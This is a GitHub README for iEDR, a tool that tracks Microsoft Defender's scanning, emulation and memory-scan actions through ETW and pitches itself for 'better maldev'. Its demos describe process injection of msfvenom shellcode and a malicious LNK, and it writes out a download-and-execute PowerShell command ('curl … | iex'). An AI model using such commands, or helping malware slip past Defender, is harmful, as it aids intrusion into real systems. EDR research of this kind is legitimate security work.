


# iEDR
> *better maldev when tracking the actions of MsMpEng.exe*

## How to run it
```powershell
# start the monitor, tracks MDE actions against yourmalware.exe
iEDR.exe -a C:\path\to\file\yourmalware.exe

# then copy/write/etc. your file to C:\path\to\file\yourmalware.exe
# and see what actions MDE takes against your file (static, emulation, memscan)
```

## Demos
### Process Injection
* see [1-process-injection.ps1](demo/1-process-injection.ps1) with [ProcInject](demo/ProcInject/ProcInject.exe)
* executes ProcInject which starts whoami.exe suspended and injects msf_venom exec calc into it



### PowerShell with commands
* see [3-powershell.ps1](demo/3-powershell.ps1)
* simply starts Powershell


### Malicious LNK
* see [6-lnk-zip.ps1](demo/6-lnk-zip.ps1)
* downloads a zipped lnk, which would execute `powershell.exe -c "curl https://github.com/calc | iex"`



## Why iEDR
iEDR uses ETW to track the relevant actions of MsMpEng (MDE) against your malware. Usually you need kernel-based access to modify MsMpEng to track all systemcalls. However, the relevant events for **heuristics checks**, **emulation** and **memory scans** can be found in the ETW traces Microsoft-Antimalware-Engine and Microsoft-Windows-Kernel-Audit-API-Calls respectively.

## EDR background
* see [Defender Detection Engines](https://blog.levi.wiki/post/2025-12-04-defender-detection-engines)


## Relevant Events to Track MDE
| Phase       | ETW Antimalware Engine | Kernel Audit API Calls | ETW TI        | Hooked EDR    |
|-------------|------------------------|------------------------|---------------|---------------|
| Static Scan | **Stream scan**        | Not visible            | Not visible   | NtReadFile    |
| Emulation   | **Scan**               | Not visible            | Alloc in EDR and RW->RX  | Not visible   |
| Memory Scan | Not visible            | **OpenProcess**        | Not visible | NtOpenProcess |
| Tracking    | Other events           | Other events           | Other events  | Other events  |

## More Theory
* see [EDR-Introspection](https://github.com/evilele/EDR-Introspection)
* [Defender Telemetry](https://blog.deeb.ch/posts/defender-telemetry/)
* [Defender Introspection](https://blog.deeb.ch/posts/defender-introspection/)
* and [Defender Detection Mechanisms](https://blog.levi.wiki/post/2026-01-09-defender-detection-mechanisms)
